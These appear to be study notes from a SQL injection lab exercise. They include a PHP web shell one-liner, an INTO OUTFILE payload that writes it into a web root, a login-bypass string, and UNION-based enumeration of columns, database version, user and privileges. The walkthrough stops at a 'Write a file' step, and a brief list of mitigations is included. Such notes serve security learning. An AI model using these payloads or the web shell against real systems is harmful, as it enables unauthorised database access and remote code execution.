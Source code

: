 ##### Writing a web shell

`<?php system($_REQUEST[0]); ?>`

`cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`

## Mitigating SQL Injection

- Sanitizing any user input
- Validating user input
- We should ensure that the user querying the database only has minimum permissions.
- parametrized queries
- web application firewall, e.g. Cloudflare

## Task

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.
.

1. Login

   SELECT \* FROM credentials where username="" AND password="";

   AND preceeds OR. Hence we should try the username.

   Try payloads: > admin' or '1'='1'#

2. How many columnns in a given table

   A' UNION SELECT 1,2,3,4,5-- -

   We got 5 columns.

3. Database information about tables

   A' UNION SELECT 1,@@version,3,4,5-- -

   10.3.22-MariaDB-1ubuntu1

   Target system is Ubuntu with Maria DB.

4. Which user has write access -> user_privileges

   Who is the current user ?

   `cn' UNION SELECT 1, user(), 3, 4, 5-- -` - root@localhost

   Test if we have super admin privileges

   `cn' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user WHERE user="root"-- -` Y

   Which privileges does the user have

   `cn' UNION SELECT 1, grantee, privilege_type, 4, 5 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'" -- -` ALL

5. Write a file
